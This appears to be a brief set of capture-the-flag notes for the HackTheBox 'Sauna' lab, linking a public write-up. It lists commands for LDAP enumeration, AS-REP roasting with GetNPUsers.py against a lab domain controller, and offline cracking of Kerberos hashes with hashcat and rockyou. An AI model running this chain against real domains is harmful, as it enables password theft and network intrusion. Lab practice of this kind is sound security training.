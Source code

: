 ldapsearch -x -h 10.129.124.191 -s base namingcontexts                                                                                                                                                                                                                                                             1 ⨯
https://0xdf.gitlab.io/2020/07/18/htb-sauna.html
python GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile username.txt -outputfile hash.txt -dc-ip 10.129.124.191
https://0xdf.gitlab.io/2020/07/18/htb-sauna.html
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt --force
